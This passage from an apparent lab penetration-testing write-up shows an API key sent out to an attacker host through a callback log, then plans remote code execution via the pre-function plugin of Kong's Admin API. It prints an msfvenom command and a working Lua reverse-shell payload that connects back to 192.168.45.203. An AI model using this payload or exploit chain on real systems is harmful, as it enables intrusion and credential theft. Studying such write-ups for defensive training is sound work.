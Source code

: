 ```log
192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /callback?chunk=0&data=%7B%22next%22%3Anull%2C%22data%22%3A%5B%7B%22created_at%22%3A1613767827%2C%22id%22%3A%22c34c38b6-4589-4a1e-a8f7-d2277f9fe405%22%2C%22tags%22%3Anull%2C%22ttl%22%3Anull%2C%22key%22%3A%22SBzrCb94o9JOWALBvDAZLnHo3s90smjC%22%2C%22consumer%22%3A%7B%22id%22%3A%22a8c78b54-1d08-43f8-acd2-fb2c7be9e893%22%7D%7D%5D%7D HTTP/1.1" 404 493 "http://192.168.45.203/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
```
After decoding the data, we find the API key.
```json
{"next":null,"data":[{
  "created_at":1613767827,
  "id":"c34c38b6-4589-4a1e-a8f7-d2277f9fe405",
  "tags":null,
  "ttl":null,
  "key":"SBzrCb94o9JOWALBvDAZLnHo3s90smjC",
  "consumer":{"id":"a8c78b54-1d08-43f8-acd2-fb2c7be9e893"}}]}
```
Now that we have the API key, we should be able to call the render endpoint through the API gateway without needing the SSRF vulnerability.
## Remote Code Execution
Since we can execute arbitrary JavaScript via the Render service, we can send requests to any of the hosts in the internal network. The PostgreSQL database will be difficult to attack without credentials. The REDIS server seems enticing, but let's focus on the Kong API Gateway since we already know we can access it via the Render service headless browser.
### RCE in Kong Admin API
After reviewing [documentation for Kong API Gateway](https://developer.konghq.com/plugins/pre-function/), the plugins seemed like a good area to focus on. We can't install a custom plugin without the ability to restart Kong so we need to use the plugins already included.

The **`Serverless Functions`** plugin has an interesting warning in its documentation:

```text
Warning: The pre-function and post-function serverless plugin allows anyone who can enable the plugin to execute arbitrary code. If your organization has security concerns about this, disable the plugin in your `kong.conf` file.
```

That sounds perfect for our purposes! Let's check if Kong has that plugin loaded.

Our first call to the Kong API Gateway Admin API actually contained information about what plugins are enabled on the server.
```json
{"plugins":{"enabled_in_cluster":["key-auth"],"available_on_server":{"grpc-web":true,"correlation-id":true,"pre-function":true,"cors":true,...
```
Since the **`pre-function` plugin is enabled**, let's try to exploit that. The plugin runs Lua code so we'll need to build a matching payload. We can use `msfvenom` to generate a reverse shell payload.
```bash
msfvenom -p cmd/unix/reverse_lua lhost=192.168.45.203 lport=1337 -f raw -o shell.lua
```
Our `shell.lua` reverse shell payload
```bash
┌──(kali㉿kali)-[~]
└─$ cat shell.lua 
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('192.168.45.203',1337);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$
```
Since we will be uploading a Lua file, we won't need `"lua -e"` in the final version of the payload.